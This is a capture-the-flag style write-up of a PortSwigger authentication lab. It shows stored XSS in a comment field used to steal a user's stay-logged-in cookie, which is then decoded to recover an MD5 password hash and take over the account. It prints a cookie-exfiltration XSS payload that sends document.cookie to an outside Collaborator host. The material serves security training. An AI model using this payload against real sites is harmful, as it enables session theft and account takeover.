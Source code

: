 # Offline password cracking

> **Vulnerability Type:** Authentication  
> **Lab URL:** [Authentication Lab](https://portswigger.net/web-security/authentication/other-mechanisms/lab-offline-password-cracking)

---

## Objective  
Use the present XSS vulnerability to obtain the stay logged in cookie of the user "carlos" then use the cookie to crack his password, log into his account and delete the account from the "my account" page.

---

## Setup  
- **Tools Used:** Burp Suite  
- **Environment Details:** PortSwigger Lab  

---

### 1. **Discovery**  
- **Initial Observations:**  
  - Found the comment section and verified it was vulnerable to XSS by putting `<img src=1 onerror=alert(1)>` into the comment input and refreshing the page causing the alert function to be called.
- **Testing Approach:**  
  - Use the XSS vulnerability to get the cookie from carlos - `<img src=1 onerror=document.location='https://.oastify.com?c=' document.cookie>` decoding the acquired stay logged in cookie in base64 goes from
  - `Y2FybG9zOjI2MzIzYzE2ZDVmNGRhYmZmM2JiMTM2ZjI0NjBhOTQz` to `carlos:26323c16d5f4dabff3bb136f2460a943` putting the hash into my search bar brought me to md5hashing.net which stated the decoded value was "onceuponatime"
  - which allowed me to login to carlos' account. I then visited the "my account page" deleted the account and completed the lab.
---
### 2. **Exploitation**  
- **Payload Used:**  
  ```XSS
  <img src=1 onerror=document.location='https://.oastify.com?c=' document.cookie>  
  ```
### 3. **Screenshots**
The HTTP request with the XSS payload (the payload has been URL encoded)
![Screenshot 2025-03-05 182029](https://github.com/user-attachments/assets/f68ca80c-37d7-4971-b601-fd0670180f2e)
Burp Collaborator with carlos' cookie
![Screenshot 2025-03-05 182042](https://github.com/user-attachments/assets/b3dc5f14-ce7e-453f-8493-6e8b7ba28f6c)
Decoding the cookie from base64 in burp repeater to get the ```username:hash```
![Screenshot 2025-03-05 182114](https://github.com/user-attachments/assets/111dc2ee-cc6e-4af8-8332-33553db88be4)
